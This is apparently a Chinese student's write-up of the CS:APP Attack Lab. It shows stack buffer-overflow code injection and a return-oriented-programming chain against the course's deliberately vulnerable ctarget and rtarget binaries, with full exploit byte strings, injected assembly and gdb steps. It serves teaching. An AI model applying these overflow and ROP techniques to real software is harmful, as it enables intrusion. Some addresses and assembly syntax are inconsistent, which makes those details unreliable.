

### Csapp Lab3: Attack

---

#### 简介

> 此实验主要进行缓冲区溢出攻击的理解，实验内容包括对两个存在不同安全隐患的程序进行五次攻击
>
> ctarget: 进行代码注入攻击
>
> rtarget: 进行面向返回编程的攻击

#### 相关命令

> objdump -d 可执行文件名  #进行反汇编，出来的是汇编代码
>
> objdump -S 可执行文件名 #进行反汇编，尽可能地反汇编出源代码
>
> objdump -t 可执行文件名  #查看可执行文件中的符号表，里面有符号的段信息以及整个符号占了多少字节
>
> gdb 可执行文件 #进入gdb环境中，输入q退出gdb环境，输入r执行可执行文件

#### Part I: Code Injection Attacks

> - 在前3个phase中，都在ctarget这个可执行文件当中
>
>   ```bash
>   objdump -d ./ctarget > ctarget.txt
>   ```

##### Level1

> - 介绍：利用字符串重定向程序去执行特定的程序，相当于劫持程序流，暗中更改函数的返回地址，将函数重定向到我们指定的特定函数，该问题无需进行代码注入
> - 当test程序执行getbuf()函数时，我们需要让它去执行touch1函数，而不是顺利返回。


> - 思路
>   - 找到getbuf函数在栈上位输入字符串分配的缓冲区大小
>   - 找到touch1函数的首地址
>   - 构造exploit string填满缓冲区大小，最后八位写成touch1函数的首地址，便可以成功进行攻击


> 找到touch1首地址，为0X00000000004017c0，函数A再调用另一个函数B的时候首先会将函数A的下一条指令的地址压入到栈中，等到函数A的栈帧执行完毕后，就直接返回到下一条指令


> - 栈中每个格子代表一个字节，是小端序（高字节在高地址，低字节在低地址）
>
> - 新建一个文件为exploit-1.txt，前面40个字节随便填，后面8个字节填touch1的返回地址
> - 此处最需要注意的是填入字符缓冲区的方向与压栈方向是相反的，比如0xaa bb cc dd填入栈中，那么现在的栈就变成了下图所示。对于每个字节单位来说不存在大小端问题，因为是以字节为基本单位的


>因此，答案就呼之欲出了。exploit-1.txt的内容填为
>
>BB BB BB BB BB BB BB BB
>BB BB BB BB BB BB BB BB
>BB BB BB BB BB BB BB BB
>BB BB BB BB BB BB BB BB
>BB BB BB BB BB BB BB BB
>c0 17 40 00 00 00 00 00
>
>```bash
>cat exploit-1.txt | ./hex2raw | ./ctarget -q 
>#或者用
>./hex2raw < exploit-1.txt | ./ctarget -q
>```


##### Level2

> 该任务是在test执行完getbuf后去执行touch2而不是进行返回，与touch1不同的是touch2有一个参数，我们需要在执行touch2之前将参数设置为cookie.txt中的值，该任务需要进行代码注入。其实每次程序运行的时候会有栈随机化这个操作，不过作者已经把相关的设置都关了，因此我们可以进行代码注入。

> 该问题比第一个问题难度加了不少，主要是我没有接触过具体的代码注入问题，只在书上看到过。
>
> 思路：
>
> - 具体就是这么一个流程，执行完getbuf后，跳转到我们自己写的代码当中，然后在我们自己注入的代码中使其跳转到touch2，注意不能使用call和jmp，那么我们只能使用ret了。

> 编写的注入代码：
>
> ```asm
> movq $0x59b997fa %rdi #将cookie.txt中的值传到%rdi中
> pushq 0x40171c #touch2函数的地址
> ret
> ```
>
> 需要注意的是我们要将上述注入的代码转为计算机可以执行的指令序列（机器码）, 利用gcc可以实现
>
> ```bash
> gcc -c exploit-2.s
> objdump -d exploit-2.o > exploit-2.d
> ```
>
> exploit-2.o的文件内容如下所示


> - 现在就只差最后一步了，我们要确定我们注入的代码的运行地址，我们将这段注入代码放到缓冲区开始的位置，然后使用gdb命令进行代码地址的判断，然后让代码执行完getbuf就跳转到我们注入代码的地址，然后就能直接跳转到test2了。
>
> - 确定注入代码的运行地址
>
>   ```bash
>   gdb ctarget
>   b getbuf
>   r -q
>   stepi
>   info r rsp
>   ```


好了，缓冲区输入的字符串已经构造好了

> 48 c7 c7 fa 97 b9 59 ff 
> 34 25 ec 17 40 00 c3 00
> 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00
> 78 dc 61 55 00 00 00 00

> - 执行
>
> ```bash
> ./hex2raw < exploit-2.txt | ./ctarget -q
> ```
>
> 即可成功。
>
> - 但是我发现我死活不能成功，才发现我的注入汇编代码的汇编表示中pushq这个指令码的字节代码和别人表示的不一样，别人的是68我的是ff 34 25，就很奇怪，但是我的思路应该是没有问题的。将pushq字节表示替换成68即可成功
> - 
> - 
>
> 总结：就是缓冲区溢出后修改了原来函数返回的地址，我们让其返回到我们注入代码的地址中，其实也就是要确定buf的首地址，因为我们把注解代码的机器码放在了缓冲区的开始部分。总结图如下。
>
> 我们需要填满缓冲区使其溢出，然后修改下图中标红的内容，让其跳转到%rsp的地址，因此我们要将此刻%rsp的值（所以需要对getbuf进行打断点后，再运行stepi，此时得到的%rsp才是对的rsp）填入到标红的位置，然后把注入的汇编代码的机器码填入到%rsp地址对应的内容当中，其他地方用0填满，这样就完成了代码注入攻击功能。

（该图需要

##### Level3


> - 也是进行代码注入攻击，让test执行getbuf后去执行touch3。
> - 我们需要仔细看提示，传递给touch3的参数是一个字符串，然后在hexmatch申请了一个cbuf。该函数首先将val也就是cookie的值调用sprintf函数将val格式化后存到cbuf的某段位置，然后进行val和sval指向的字符串之间进行比较，如果相等才会成功。
> - 然后我们再调用touch3的时候还要传入sval的地址，sval就是将cookie转化为字符串表示后的存储地址。根据题目提示，调用hexmatch和strncmp的时候，会将数据顺序压入到栈中，有可能会覆盖缓冲区（其实这块我还没有理解），所以我们根据提示将其避开。
> - 好了，现在让我们来看下touch3的汇编代码



> - 可以很容易发现，%edi就是cookie的值，%rsi就是sval字符串的地址
>
> - 思路和level大同小异。现在我们来编写注入代码
>
> ```assembly
> movq $0x5561dca8, %rdi #将cookie.txt中的值传到%rdi中
> pushq 0x4018fa #touch3函数的地址
> ret
> ```
>
> - 然后利用gcc将上述注入的代码转为计算机可以执行的指令序列（机器码）
>
> ```bash
> gcc -c exploit-3.s
> objdump -d exploit-3.o > exploit-3.d
> ```


> - 为了不让cookie转化为字符串后的地址被覆盖，我们可以这么分配栈帧，如下图所示。这样，字符串便不会被覆盖
> - 将cookie的值转换为ASCII表示，本文中的cookie值是0x59b997fa，转换为ASCII(16进制)表示: 35(5), 39(9), 62(b), 39(9), 39(9), 37(7), 66(f), 61(a)
> - 好了，到这一步我们大概就能知道答案了
>
> ```bash
> gdb ./ctarget
> b getbuf
> r -q
> info r rsp
> ```
>
> 
>
> - 可以看到原来是0x5561dca0存储了调用者栈帧的返回地址，现在我们将字符串地址存在返回地址的上面，也就是0x5561dca8
> - 接下来我们来看看调用getbuf后的%rsp的值
>
> ```bash
> gdb ./ctarget
> b getbuf
> r -q
> stepi
> info r rsp
> ```
>
> 
>
> - 所以答案
>
> 48 c7 c7 a8 dc 61 55 ff 
> 34 25 fa 18 40 00 c3 00
> 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00
> 78 dc 61 55 00 00 00 00 //返回地址
> 35 39 62 39 39 37 66 61 //字符串sval的值
>
> 这里分析一下最后一段，为什么不是61 66 37 39 39 62 39 35呢，因为这里不同于大小端序，它是一串字符串序列，是按顺序排的。


#### 攻击方法

> - 缓冲区溢出攻击：越界的数组元素会破环存储在栈中的状态信息，有可能会产生严重的后果，出现段错误。
> - 栈溢出攻击：和缓冲区溢出攻击类似。
> - 代码注入攻击：注入攻击代码，将函数的返回地址替换为攻击代码的地址，让程序执行注入的代码。
> - 栈所在的内存标记为不可执行
>
> 上述三个都是利用ret指令来跳转的

#### 防范方法

> - 使用gets等函数的时候注意不要越界
> - OS层面：栈随机化
> - OS层面：栈金丝雀

#### Part II: Return-Oriented Programming

> - rtarget使用栈随机化、将栈所在的内存标记为不可执行来防止被攻击，我们关注的可执行文件是rtarget
> - 相应的攻击方法就是ROP，思想是不再进行代码注入，而是在已有代码中寻找那些以ret结尾的，将代码地址以字符串的形式存在栈中，当程序执行ret的时候会造成一连串的代码被执行。


##### Level4

> - 做和level2一样的内容，只不过不允许使用代码注入，只能使用ROP。也是执行完getbuf后去执行test2，而不是正常返回
>
> ```bash
> gcc -c ./target1/farm.c
> objdump -d ./target1/farm.o > farm.d
> ```
>
> - farm.c文件是一串函数，也就是我们要寻找的Gadget，执行完上面的指令发现地址不是运行的地址，只是逻辑地址，因此要对rtarget执行文件进行反汇编
> - 回顾一下level我们注入的汇编代码
>
> ```assembly
> movq $0x59b997fa %rdi #将cookie.txt中的值传到%rdi中
> pushq 0x40171c #touch2函数的地址
> ret
> ```
>
> - 需要改为:
>
> ```
> popq %rax #拿到cookie
> movq %rax, %rdi #传递给touch2
> ret
> ```
>
> - 因为不能在栈中运行代码了，因此需要利用rtarget反汇编出来的text信息
> - pop %rax的指令字节是58，所以我们找到了如下函数


> - 所以popq %rax指令的地址为0x4019ab
> - movq %rax, %rdi的指令字节为48 89 c7，我们找到了如下函数


> - 所以movq %rax, %rdi的指令地址为0x4019a2
>
> ```
> 00 00 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00 00 00
> ab 19 40 00 00 00 00 00 //篡改的函数返回地址
> fa 97 b9 59 00 00 00 00 
> a2 19 40 00 00 00 00 00 
> ec 17 40 00 00 00 00 00
> ```
>
> - 总结，栈帧结构如下。
>   - getbuf执行完成后，返回到指令popq %rax的地址，这时候%rsp=%rsp+48，指在cookie位置。这时候代码执行popq %rax，然后再触发retq指令，这时候代码执行到了下图栈帧结构中的movq %rax,%rdi的地址，%rsp指向movq %rax, %rdi的位置，之后又触发ret命令。
>   - 这时候跳到touch2的地址，%rsp指向touch2

栈帧结构：


level5就不做了。

#### 总结

> - 需要了解常见的攻击方法和防范方法。
> - 要知道数据和指令在栈中的放置关系。字符串按顺序排，数字按小端排（高位放高地址，地位放低地址）
> - Buffer Lab是深入理解计算机系统的第二版的缓冲区配套实验，和这个Attack实验本质其实是一个，因此就不再做了。

